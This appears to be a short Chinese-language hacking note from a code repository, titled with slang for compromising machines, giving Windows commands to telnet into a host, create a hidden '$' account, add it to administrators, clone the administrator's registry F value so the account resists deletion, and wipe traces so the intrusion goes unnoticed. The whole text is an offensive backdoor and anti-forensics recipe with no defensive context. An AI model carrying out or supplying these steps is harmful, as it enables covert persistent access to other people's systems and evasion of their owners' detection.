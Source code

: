 # 抓鸡 #

#### 添加隐藏用户： ####

连接用户：
>telnet 192.168.1.9  [端口号]

创建用户：name$ ，密码为：123 ,$ 用于隐藏
>net user name 123 /add

添加用户至 administrator 分组
>net localgroup administrators name$ /add 

打开注册表
>regedit

查看对应关系，找到administrator 管理员的 F 复制到新建的用户 F里
>![](https://i.imgur.com/dDyYxqF.png)

导出用户和用户所属的文件

删除用户
>net user name$ /del

双击导出的文件

这么做 用户在输入 net user name$ /del 时候删除不了

扫尾：彻底删除没用的文件

做这个是为了让别人发现不了，像没来过一样
>![](https://i.imgur.com/pfPe6fA.png)


---------------------------------

